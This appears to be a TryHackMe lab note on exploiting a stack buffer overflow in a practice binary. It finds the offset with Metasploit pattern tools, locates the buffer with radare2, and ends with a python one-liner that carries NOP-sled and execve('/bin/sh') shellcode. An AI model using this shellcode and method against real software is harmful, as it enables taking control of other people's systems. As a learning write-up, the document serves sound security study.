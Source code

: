 **Find offset**

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200`

- Use as input for program
- Find offset of stack frame pointer (rbp)
```
> r2 -d buffer_overflow [pattern]
> aa
> dr
``` 
- Use `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q [pattern found in rbp]`
  (Keep Little Endianness in mind)
- Offset of pattern is 144


**Find address of buffer**
Provide argument `AAAA` to program

```
> r2 -d buffer_overflow AAAA
> aa
> pdf @sym.copy_arg
> db [address of 'call sym.imp.puts]
> dc
> afvd
```
var var90_h seems to hold our value, so this must be the buffer

You can also find the address of the buffer by looking at the memory area around the stack pointer (radare2):
`px @rsp` 

![Address of buffer](./img/buffer_address.png)
![Memory around stack pointer](./img/stack_memory.png)

Fill the ebp with this value:

`python -c "print(NOP * some amount + shell code (30 bytes) + random data to fill up to 144 bytes + buffer address)"`  

`python -c "print('\x90' * 90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A' * 22 + '\x50\xe2\xfe\xff\xff\xff\xf7')"`







badchars: \x3b ---> WTF? Ask TryHackMe community?